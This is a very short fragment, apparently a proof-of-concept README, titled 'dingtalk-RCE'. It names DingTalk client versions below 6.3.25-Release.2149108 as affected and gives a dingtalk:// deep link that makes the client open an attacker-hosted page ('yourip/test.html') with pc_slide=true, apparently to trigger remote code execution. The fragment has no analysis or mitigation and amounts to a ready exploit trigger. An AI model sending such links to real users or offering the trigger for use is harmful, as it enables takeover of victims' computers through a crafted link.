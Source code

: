 dingtalk-RCE
影响版本:钉钉版本< 6.3.25-Release.2149108：

dingtalk://dingtalkclient/page/link?url=yourip/test.html&pc_slide=true
